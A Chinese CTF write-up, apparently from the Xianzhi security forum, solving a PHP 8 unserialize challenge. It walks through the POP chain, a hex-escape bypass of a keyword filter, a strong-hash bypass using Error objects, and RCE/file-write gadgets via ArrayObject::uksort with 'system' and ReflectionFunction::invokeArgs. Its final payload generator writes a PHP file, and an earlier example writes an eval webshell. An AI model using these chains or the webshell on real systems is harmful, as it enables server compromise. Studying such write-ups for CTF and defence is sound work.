





# PHP8反序列化链利用与强类型绕过分析-先知社区

> **来源**: https://xz.aliyun.com/news/19219  
> **文章ID**: 19219

---

省赛线下有个php挺有意思的。记录一下

```
<?php
error_reporting(0);

class DataBaseCon{
    public $user;
    public $hello;
    public function __invoke()
    {
        ($this->user)->lover($this->hello);
    }

}

class FileHandle{
    public $lover;
    public function __toString()
    {
        $func=$this->lover;
        $func();
        return "";
    }
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
    public function __call($func,$args)
    {
        if(!preg_match("/exec|system|shell_exec|popens|popen|curl_exec|curl_multi_exec|proc_open|proc_POST_status|readfile|unlink|dl|memory_POST_usage|passthru|pcntl_exec|mail|imap_open|imap_mail|putenv|ini_set|apache_setenv|symlink|linkopen_basedir|eval|assert|create_function|array_map|call_user_func_array|array_filter|uasort|preg_replace/i", $this->b)){   
            $a=new $args[0]($this->b);
            $c=$this->c;
            $a->$c($this->d);
            } 
        else {
            die("waf");
            }
    }
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
    public function  __wakeup()
    {
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )
        {
            echo "hash ok";
            die($this->web);
            eval($this->syc);
        }
    }
}

if (isset($_POST['pop'])){
    if(preg_match("/lover/i",$_POST['pop'])){
        die("no");
    }
    unserialize($_POST['pop']);
} else {
    highlight_file(__FILE__);
} 
```

题目的php版本中是php8

链子很简单

```
WebInfo.__wakeup -> FileHandle.__toString -> DataBaseCon.__invoke -> WafWaf.__call
```

**lover匹配绕过**

将前面的lover前面的s改成大写然后用十六进制就可以绕过

**php8中的强碰撞绕过**

在php8中，preg\_match的第二个参数必须是字符串，否则就会抛出一个`TypeError`，导致脚本终止

用这个链子试一下

```
<?php
class DataBaseCon{
    public $user;
    public $hello;
}

class FileHandle{
    public $lover;
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
}


$a = new WebInfo();
$a -> lover []= 1;
$a -> syc []= 2;
$a -> web = new FileHandle();
$a -> web -> lover = 'phpinfo';

$b = serialize($a);
$exp = str_replace('s:5:"lo','S:5:"\6co',$b);
echo $exp.PHP_EOL;
echo rawurlencode($exp);//O%3A7%3A%22WebInfo%22%3A3%3A%7Bs%3A3%3A%22web%22%3BO%3A10%3A%22FileHandle%22%3A1%3A%7BS%3A5%3A%22%5C6cover%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A3%3A%22syc%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A2%3B%7DS%3A5%3A%22%5C6cover%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A1%3B%7D%7D
```



可以看到这里是进入了wakeup但是即没有`hash ok`也没有`hash false`，报错`must be of type string, array given`



放在php7中是可以正常绕过的，并且进入`__toString`中执行了`phpinfo()`

因此这里没法用数组绕过，那么该怎么绕过呢

在php中，md5会将作用的对象转换成字符串类型之后再进行加密，利用这一点就可以成功绕过

```
<?php
class DataBaseCon{
    public $user;
    public $hello;
}

class FileHandle{
    public $lover;
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
}


$a = new WebInfo();
$a -> lover = new FileHandle();
$a -> lover -> lover = 'phpinfo';

$b = serialize($a);
$exp = str_replace('s:5:"lo','S:5:"\6co',$b);
echo $exp.PHP_EOL;
echo rawurlencode($exp);//%3A7%3A%22WebInfo%22%3A3%3A%7Bs%3A3%3A%22web%22%3BN%3Bs%3A3%3A%22syc%22%3BN%3BS%3A5%3A%22%5C6cover%22%3BO%3A10%3A%22FileHandle%22%3A1%3A%7BS%3A5%3A%22%5C6cover%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7D
```



或者换一个方法，用php原生类中的Error或Exception来绕过，这两个类在触发本身的`__toString`时会以字符串的形式输出当前报错，其实也是利用了

md5()在处理参数时会先把类型转换成字符串再加密，触发`__toString`后会输出包含当前的错误信息`$str`，但是传入Error($str,1)中的错误代码`1`不会被输出，因此能够绕过强比较

```
<?php
class DataBaseCon{
    public $user;
    public $hello;
}

class FileHandle{
    public $lover;
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
}


$str = "Pr0";
$r1 = new Error($str,1);$r2 = new Error($str,2);
$a = new WebInfo();
$a -> syc = $r1;
$a -> lover = $r2;
$a -> web = new FileHandle();
$a -> web -> lover = "phpinfo";

$b = serialize($a);
$exp = str_replace('s:5:"lo','S:5:"\6co',$b);
echo $exp.PHP_EOL;
echo rawurlencode($exp);//O%3A7%3A%22WebInfo%22%3A3%3A%7Bs%3A3%3A%22web%22%3BO%3A10%3A%22FileHandle%22%3A1%3A%7BS%3A5%3A%22%5C6cover%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A3%3A%22Pr0%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A24%3A%22D%3A%5Ccode%5CphpStrom%5Cexp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A42%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7DS%3A5%3A%22%5C6cover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A3%3A%22Pr0%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A24%3A%22D%3A%5Ccode%5CphpStrom%5Cexp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A42%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D
```



**如何执行命令**

在链子的最后需要用下面的形式来执行命令

```
$a=new $args[0]($this->b);
$c=$this->c;
$a->$c($this->d); 
```

先来梳理一下我们能利用的

实例化任意类`$a = new $args[0]($this->b);`并且能控制传递给该类的第一个参数`$this->b`

调用实例化类中的任意方法`$a->$c($this->d);`

首先想到的就是php原生类，题目中的类没有地方可以利用

## ArrayIterator类执行命令

官方文档的描述：  
这个迭代器允许在遍历数组和对象时删除和更新值与键。

```
ArrayIterator  implements ArrayAccess  , SeekableIterator  , Countable  , Serializable {

/* 常量 */

const integer STD_PROP_LIST  = 1;

const integer ARRAY_AS_PROPS  = 2;

/* 方法 */

public append( mixed $value) : void

public asort() : void

public __construct( mixed $array = array(), int $flags = 0)

public count() : int

public current() : mixed

public getArrayCopy() : array

public getFlags() : int

public key() : mixed

public ksort() : void

public natcasesort() : void

public natsort() : void

public next() : void

public offsetExists( mixed $index) : bool

public offsetGet( mixed $index) : mixed

public offsetSet( mixed $index, mixed $newval) : void

public offsetUnset( mixed $index) : void

public rewind() : void

public seek( int $position) : void

public serialize() : string

public setFlags( string $flags) : void

public uasort( callable $cmp_function) : void

public uksort( callable $cmp_function) : void

public unserialize( string $serialized) : void

public valid() : bool
}
```

这个原生类都接受一个回调函数作为参数。可以通过传入一个函数作为回调。当排序发生时，PHP 会调用这个函数，并将数组的键或值作为参数传递给它，从而实现 RCE 或任意文件写入

举个例子

```
<?php
$array = [
    'whoami' => 1,
    'ignored_key' => 2
];

$callback = 'system';

$obj = new ArrayObject($array);

// 调用 uksort
// uksort 会使用 'system' 函数来比较数组的 *键*
// 导致 system('whoami', 'ignored_key') 被调用
// system 只执行第一个参数，RCE 成功
$obj->uksort($callback);
?>
```

## ReflectionFunction

根据官方文档:

`ReflectionFunction` 类用于报告一个函数的有关信息。它提供了“反射”接口，允许程序在运行时自省，并**调用**这些函数。

```
class ReflectionFunction implements Reflector {
/* 属性 */
public readonly string $name;

/* 常量 */
public const int IS_DEPRECATED;

/* 方法 */
public __construct(string|callable|Closure $name)
public __clone(): void
public static export(string $name, bool $return = false): string
public getAttributes(?string $name = null, int $flags = 0): array
public getClosure(): Closure
public getClosureScopeClass(): ?ReflectionClass
public getClosureThis(): ?object
public getDocComment(): string|false
public getEndLine(): int|false
public getExtension(): ?ReflectionExtension
public getExtensionName(): string|false
public getFileName(): string|false
public getName(): string
public getNamespaceName(): string
public getNumberOfParameters(): int
public getNumberOfRequiredParameters(): int
public getParameters(): array
public getReturnType(): ?ReflectionType
public getShortName(): string
public getStartLine(): int|false
public getStaticVariables(): array
public hasReturnType(): bool
public inNamespace(): bool
public invoke(mixed ...$args): mixed
public invokeArgs(array $args): mixed
public isAnonymous(): bool
public isClosure(): bool
public isDeprecated(): bool
public isDisabled(): bool
public isGenerator(): bool
public isInternal(): bool
public isUserDefined(): bool
public isVariadic(): bool
public returnsReference(): bool
public __toString(): string
}
```

ReflectionFunction主要靠invoke()或 invokeArgs()方法的直接调用，invokeArgs(array $args)方法允许我们调用在构造函数中指定的函数，并将一个数组作为参数列表（$args）传递给它，进而可以进行rce或者写文件

举个例子

```
<?php
$function_name = 'file_put_contents';

$arguments = [
    'shell.php',
    '<?php eval($_REQUEST[1]);?>'
];

$obj = new ReflectionFunction($function_name);

$obj->invokeArgs($arguments);
?>
```

## Payload

本地的源码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
class DataBaseCon{
    public $user;
    public $hello;
    public function __invoke()
    {
        echo "__invoke";
        ($this->user)->lover($this->hello);
    }

}

class FileHandle{
    public $lover;
    public function __toString()
    {
        echo "__toString";
        $func=$this->lover;
        $func();
        return "";
    }
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
    public function __call($func,$args)
    {
        echo "__call<br>";
        if(!preg_match("/exec|system|shell_exec|popens|popen|curl_exec|curl_multi_exec|proc_open|proc_POST_status|readfile|unlink|dl|memory_POST_usage|passthru|pcntl_exec|mail|imap_open|imap_mail|putenv|ini_set|apache_setenv|symlink|linkopen_basedir|eval|assert|create_function|array_map|call_user_func_array|array_filter|uasort|preg_replace/i", $this->b)){
            echo "preg_pass";
            $a=new $args[0]($this->b);
            $c=$this->c;
            $a->$c($this->d);
        }
        else {
            die("waf");
        }
    }
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
    public function __wakeup()
    {
        try {
            echo "__wakeup<br>";
            var_dump($this->syc);
            var_dump($this->lover);

            if (($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc) === sha1($this->lover))) {
                echo "<br>hash ok";
                die($this->web);
                eval($this->syc); 
            } else {
                echo "hash false";
            }
        } catch (\Throwable $e) {
            echo "<br>错误: ".$e->getMessage() ;
        }
    }
}

$a = $_POST['pop'];
// echo $a;
if (isset($a)){
    echo phpversion()."<br>";
    if(preg_match("/lover/i",$_POST['pop'])){
        die("no");
    }
    unserialize($_POST['pop']);
}
```

根据上面的知识点，可以得到这题的payload

```
<?php
error_reporting(0);

class DataBaseCon{
    public $user;
    public $hello;

}

class FileHandle{
    public $lover;
}

class WafWaf{
    public $a;
    public $b;
    public $c;
    public $d;
}


class WebInfo{
    public $web;
    public $syc;
    public $lover;
}
$str = "Pr0";
$r1 = new Error($str,1);$r2 = new Error($str,2);
$a = new WebInfo();
$a -> syc = $r1;
$a -> lover = $r2;
$a -> web = new FileHandle();
//$a -> web -> lover = "phpinfo";
$a -> web -> lover = new DataBaseCon();
$a -> web -> lover -> hello = "ReflectionFunction";
$a -> web -> lover -> user = new WafWaf();
$a -> web -> lover -> user -> b = 'file_put_contents';
$a -> web -> lover -> user -> c = "invokeArgs";
$a -> web -> lover -> user -> d = [ 'shell.php', '<?php phpinfo();?>' ];

$b = serialize($a);
$exp = str_replace('s:5:"lo','S:5:"\6co',$b);
echo $exp.PHP_EOL;
echo rawurlencode($exp);
```

成功写入
